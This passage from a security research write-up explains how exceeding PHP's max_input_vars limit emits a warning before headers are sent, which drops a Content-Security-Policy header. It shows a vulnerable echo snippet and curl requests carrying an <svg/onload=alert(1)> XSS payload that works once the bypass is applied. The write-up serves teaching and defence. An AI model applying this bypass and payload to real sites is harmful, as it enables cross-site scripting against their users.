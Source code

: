 In PHP, there's a hidden trap while setting HTTP headers: if there's any
kind of output before response headers, PHP would simply ignore all
subsequent `header()` calls. The official documentation also explicitly
mentions this:

    > Remember that `header()` must be called before any actual output is
    > sent, either by normal HTML tags, blank lines in a file, or from
    > PHP.

This is a textbook issue, and pops up in many CTF challenges. Yet, in most
cases, it still relies on unexpected output caused by existing logical
errors. But what if today, there's no code before setting response headers
at all - can you still exploit it?

---------------------[ CSP: Content Security Policy
</PRE>
```php
<?php
header("Content-Security-Policy: default-src 'none';");
echo $_GET["xss"];
```
<PRE>

Definitely! @pilvar cleverly exploited a side effect on `max_input_vars`
[20] : when the number of parameters exceeds PHP's limit, PHP kindly
throws a warning message at you. However, this warning indeed violates the
assumption that "there must be no output before the response header,"
totally breaking the defense-in-depth CSP, and re-enabling Cross-Site
Scripting again!

+---------------------[  CSP? Can't Stop Payloads!

=> [1] CSP says No!
</PRE>
```console
$ curl -i "http://orange.local/?xss=<svg/onload=alert(1)>"
  HTTP/1.1 200 OK
  [...]
  Content-Security-Policy: default-src 'none';

  <svg/onload=alert(1)>
```
<PRE>

=> [2] We're free from CSP now!
</PRE>
```console
$ curl -i "http://orange.local/?xss=<svg/onload=alert(1)>&A=1&A=2&A=3&A=4&...&A=999&A=1000"
  HTTP/1.1 200 OK
  [...]

  <b>Warning</b>: PHP Request Startup: Input variables exceeded 1000 [...]
  <br />
  <b>Warning</b>: Cannot modify header information - headers already sent

  <svg/onload=alert(1)>
```
<PRE>
